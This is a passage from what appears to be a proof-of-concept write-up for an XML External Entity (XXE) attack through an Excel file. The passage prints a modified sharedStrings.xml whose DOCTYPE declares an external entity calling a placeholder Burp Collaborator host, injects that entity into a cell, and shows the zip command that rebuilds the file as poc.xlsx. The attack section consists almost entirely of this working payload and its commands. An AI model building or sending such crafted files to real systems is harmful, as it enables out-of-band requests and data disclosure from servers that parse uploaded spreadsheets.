 xl/sharedString.xml

``` xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [ <!ELEMENT t ANY > <!ENTITY xxe SYSTEM "http://YOURCOLLABORATORID.burpcollaborator.net/"> ]>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="10" uniqueCount="10"><si><t>&xxe;</t></si><si><t>testA2</t></si><si><t>testA3</t></si><si><t>testA4</t></si><si><t>testA5</t></si><si><t>testB1</t></si><si><t>testB2</t></si><si><t>testB3</t></si><si><t>testB4</t></si><si><t>testB5</t></si></sst>
```

1.  rebuild the Excel file:

```{=html}
<!-- -->
```
    $ zip -r ../poc.xlsx *
    updating: [Content_Types].xml (deflated 71%)
    updating: _rels/ (stored 0%)
    updating: _rels/.rels (deflated 60%)
    updating: docProps/ (stored 0%)
    updating: docProps/app.xml (deflated 51%)
    updating: docProps/core.xml (deflated 50%)
    updating: xl/ (stored 0%)
    updating: xl/workbook.xml (deflated 56%)
    updating: xl/worksheets/ (stored 0%)
    updating: xl/worksheets/sheet1.xml (deflated 53%)
    updating: xl/styles.xml (deflated 60%)
    updating: xl/theme/ (stored 0%)
    updating: xl/theme/theme1.xml (deflated 80%)
    updating: xl/_rels/ (stored 0%)
    updating: xl/_rels/workbook.xml.rels (deflated 66%)
    updating: xl/sharedStrings.xml (deflated 17%)
